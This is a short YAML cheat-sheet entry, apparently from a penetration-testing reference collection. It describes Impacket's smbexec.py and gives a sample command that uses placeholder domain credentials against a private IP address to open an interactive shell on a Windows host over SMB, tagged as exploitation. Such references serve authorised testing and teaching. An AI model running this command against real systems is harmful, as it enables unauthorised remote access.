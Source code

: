 ```yaml
---
description: |
  Impacket's smbexec.py. This will give you an interactive shell on the Windows host.

  Command Reference:

  	Target IP: 10.10.10.1

  	Domain: test.local

  	Username: john

  	Password: password123
command: |
  python3 smbexec.py test.local/john:password123@10.10.10.1
items:
  - Password
  - Username
services:
  - SMB
OS:
  - Linux
  - Windows
attack_types:
  - Exploitation
---
```

